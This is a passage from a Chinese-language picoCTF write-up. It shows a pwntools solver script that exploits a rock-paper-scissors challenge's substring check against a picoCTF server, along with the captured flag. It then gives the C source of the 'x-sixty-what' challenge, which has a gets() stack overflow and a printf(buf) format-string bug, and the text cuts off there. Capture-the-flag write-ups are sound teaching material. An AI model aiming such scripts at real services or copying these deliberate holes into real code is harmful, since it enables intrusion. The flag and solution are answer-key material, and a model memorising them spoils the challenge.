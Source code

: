 payload：

```python
from pwn import *
context.log_level='debug'

# io = process('./vuln')
io = remote('saturn.picoctf.net', 51420)

io.sendlineafter(b'Type \'2\' to exit the program', b'1')

for i in range(4):
	io.sendlineafter(b'Please make your selection (rock/paper/scissors):',
		 	b'rockpaperscissors')
	io.sendlineafter(b'Type \'2\' to exit the program', b'1')

io.sendlineafter(b'Please make your selection (rock/paper/scissors):',
		 	b'rockpaperscissors')
io.sendlineafter(b'Type \'2\' to exit the program', b'2')


io.interactive()
```

picoCTF{50M3_3X7R3M3_1UCK_58F0F41B}

## 6. x-sixty-what

源码：
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
```